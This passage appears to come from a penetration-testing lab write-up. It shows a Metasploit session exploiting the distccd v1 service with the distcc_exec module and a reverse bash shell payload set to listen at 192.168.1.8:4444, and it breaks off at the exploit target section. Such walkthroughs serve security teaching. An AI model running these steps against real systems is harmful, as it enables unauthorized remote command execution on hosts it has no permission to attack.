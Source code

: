 |_http-title: Apache Tomcat/5.5
|_http-favicon: Apache Tomcat

## **Step 2: Exploitation**

Now, let's exploit This machine by using,  distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4)).

I have used Metasploit tool to exploit the above version. steps are as follows.

1. Started Metasploit console in root user.

```bash
msfconsole
```

2. Search the above exploit distcc. (search result exploit below)

```bash
msf> search distcc

Matching Modules
================

   #  Name                           Disclosure Date  Rank       Check  Description
   -  ----                           ---------------  ----       -----  -----------
   0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/misc/distcc_exec

```

3. Using the exploit founded by metasploit, By the following command. (exploit  chosen below)

```bash
msf > use exploit/unix/misc/distcc_exec
```

4. search options for the following exploit, this will give us the list of options to be set compulsory in the exploit. as shown below.

```bash
Module options (exploit/unix/misc/distcc_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, http, socks5h
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    3632             yes       The target port (TCP)


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.8      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

```